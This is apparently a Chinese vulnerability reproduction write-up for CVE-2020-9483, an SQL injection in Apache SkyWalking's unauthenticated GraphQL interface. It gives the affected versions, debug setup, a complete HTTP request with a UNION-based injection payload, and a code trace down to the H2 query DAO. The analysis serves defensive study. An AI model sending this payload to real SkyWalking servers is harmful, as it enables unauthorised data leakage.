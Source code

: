 # 

# Apache SkyWalking graphql SQL注入漏洞 CVE-2020-9483

## 漏洞描述

腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。

## 漏洞影响

```
Apache SkyWalking 6.0.0~6.6.0
Apache SkyWalking 7.0.0
```

## 环境搭建

https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz

https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz

## 漏洞复现

下载编译好的源码后，进入bin目录，修改 oapService.sh 通过IDEA进行远程调试

```
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1
```

配置IDEA JVM Debug

![](./images/202205251616557.png)

查看CVE的修复commit寻找修复的地方

![](./images/202205251616973.png)

打下断点并发送Payload请求包

```
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![](./images/202205251617073.png)

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

![](./images/202205251617628.png)

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96)

![](./images/202205251617333.png)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

![](./images/202205251617486.png)

调用栈如下

```
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```
